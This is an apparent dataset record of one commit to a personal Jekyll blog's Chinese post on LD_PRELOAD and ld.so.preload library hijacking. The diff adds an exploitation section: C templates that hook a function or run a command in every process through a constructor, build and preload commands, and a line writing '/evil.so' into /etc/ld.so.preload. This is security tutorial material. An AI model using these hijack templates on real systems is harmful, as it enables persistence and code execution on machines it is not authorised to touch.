

Before and after one commit to kerno-yep/kerno-yep.github.io, a Jekyll site: the page built from _posts/2022-09-22-库劫持.md, in a window 1280 px wide and 1400 px high, scrolled down 924 px. Shown: the top 1368 px of the window, without its empty margins (233-1046 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 1586 px from its top, so only the background shows below that.

Commit message:
renamed:    "_posts/2022-09-22-LD_PRELOAD\345\212\253\346\214\201.md" -> "_posts/2022-09-22-\345\272\223\345\212\253\346\214\201.md"

````diff
--- a/_posts/2022-09-22-LD_PRELOAD劫持.md
+++ b/_posts/2022-09-22-库劫持.md
@@ -47,3 +47,46 @@ echo "/evil.so" > /etc/ld.so.preload
 #1.修改动态链接器中配置文件路径/etc/ld.so.preload为自定义的路径
 #2.在该路径中写入要预加载的恶意动态链接库的绝对路径
 ```
+
+#### 利用
+
+##### 查看库函数
+
+```shell
+readelf -Ws /usr/bin/ls
+```
+
+##### 选择函数重写
+
+```c
+//劫持某一函数
+#include<stdlib.h>
+#include<stdio.h>
+#include<string.h>
+void payload(){
+     //exp;
+}
+int xxx(){
+	if(getenv("LD_PRELOAD") == NULL){
+		return 0;
+	}
+	unsetenv("LD_PRELOAD");
+	payload();
+}
+
+//所有命令全量劫持
+#include<stdlib.h>
+#include<stdio.h>
+#include<string.h>
+__attribute__((__constructor__)) void preload (){
+    unsetenv("LD_PRELOAD");
+    system("id");//exp
+}
+```
+
+##### 编译加载
+
+```shell
+gcc -shared -fPIC test.c -o test.so
+export LD_PRELOAD=$PWD/test.so
+```
````
